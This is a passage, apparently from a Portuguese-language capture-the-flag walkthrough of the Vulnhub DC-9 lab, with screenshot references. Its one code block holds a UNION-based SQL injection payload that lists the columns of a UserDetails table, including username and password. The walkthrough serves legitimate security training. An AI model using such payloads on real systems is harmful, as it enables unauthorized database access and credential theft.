 ![](/assets/img/Vulnhub/DC-9/tabelas-users.png)


\newpage

* Listando as colunas da tabela UserDetails: **ID**, **firstname**, **lastname**, **username**, **password** e **reg_date**

```bash
search=Fred' union select 1,2,3,4,5,column_name from information_schema.columns where table_name = 'UserDetails' #
```

![](/assets/img/Vulnhub/DC-9/colunas-UserDetails-users.png)
